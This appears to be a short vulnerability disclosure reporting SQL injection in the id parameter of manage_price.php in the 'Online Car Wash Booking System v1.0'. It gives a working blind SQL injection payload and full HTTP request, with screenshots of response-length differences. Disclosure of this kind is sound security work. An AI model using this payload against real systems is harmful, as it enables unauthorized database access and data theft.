 # Online Car Wash Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15274/online-car-wash-booking-system-phpoop-free-source-code.html

Vulnerability File: /ocwbs/admin/services/manage_price.php?id=

Vulnerability location: /ocwbs/admin/services/manage_price.php?id=, id

Current database name: ocwbs_db,length is 8

[+] Payload: /ocwbs/admin/services/manage_price.php?id=2%27%20and%20length(database())%20=8--+ // Leak place ---> id

```sql
GET /ocwbs/admin/services/manage_price.php?id=2%27%20and%20length(database())%20=8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qr1o26kvu55cqqitadqht6jna5
Connection: close
```

When length (database ()) = 7, Content-Length: 4256

![image](https://user-images.githubusercontent.com/54017627/169305433-da772f1c-b21d-44d8-b8ad-ac29ab921ce0.png)

![image](https://user-images.githubusercontent.com/54017627/169305774-5144cadd-24a5-4dac-b945-1ad2b7a74360.png)

When length (database ()) = 8, Content-Length: 4279

![image](https://user-images.githubusercontent.com/54017627/169305809-681d4acd-aacb-4ed5-a0a2-4b09562cc01b.png)

![image](https://user-images.githubusercontent.com/54017627/169305479-86ab276a-9909-47f2-8c5d-829eac5bdcbb.png)
